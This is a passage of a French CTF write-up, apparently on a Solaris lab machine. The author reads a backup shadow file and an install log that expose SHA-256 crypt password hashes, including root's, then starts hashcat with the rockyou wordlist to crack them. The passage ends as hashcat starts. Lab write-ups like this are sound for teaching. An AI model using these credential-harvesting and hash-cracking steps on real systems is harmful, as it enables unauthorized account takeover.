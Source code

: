 Encore une bizarrerie :  

```plain
sunny@sunday:/etc$ ls -l /var/adm/spellhist
-rw-rw-rw- 1 root bin 0 2009-05-14 21:18 /var/adm/spellhist
```

Finalement je trouve des hashs dans un dossier backup :  

```plain
sunny@sunday:/backup$ ls -l
total 2
-r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup

sunny@sunday:/$ cat backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Si on cherche des mentions de l'utilisateur *sammy* sur le système on en trouve dans le fichier */var/sadm/system/logs/install\_log* :  

```plain
<OM Apr 15 14:22:31> /sbin/install-finish  -B '/a' -R '$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD' -n 'sammy' -l 'sammy' -p '$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB' -G '10' -U '101'
<ICT Apr 15 14:22:32> Starting Python script of Install Completion Tasks
<ICT Apr 15 14:22:32> BASEDIR: /a
<ICT Apr 15 14:22:32> USER_SPEC_DBGLVL:
<ICT Apr 15 14:22:32> ROOT_PW: $5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD
<ICT Apr 15 14:22:32> NU_GOS: sammy
<ICT Apr 15 14:22:32> NU_LOGIN: sammy
<ICT Apr 15 14:22:32> NU_PW: $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
<ICT Apr 15 14:22:32> NU_GID: 10
<ICT Apr 15 14:22:32> NU_UID: 101
```

Ça commence à être intéressant :)  

Il est temps de faire chauffer le processeur (faute de mieux) :  

```plain
$ ./hashcat64.bin -m 7400 -a 0 /tmp/hashes.txt /opt/wordlists/rockyou.txt
 hashcat (v4.1.0) starting...

 OpenCL Platform #1: Intel(R) Corporation
 ========================================
 * Device #1: Intel(R) Core(TM) i5-7200U CPU @ 2.50GHz, 3981/15926 MB allocatable, 4MCU

 Hashes: 3 digests; 3 unique digests, 3 unique salts
 Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
 Rules: 1

 Applicable optimizers:
 * Zero-Byte

 Minimum password length supported by kernel: 0
 Maximum password length supported by kernel: 256

 ATTENTION! Pure (unoptimized) OpenCL kernels selected.
```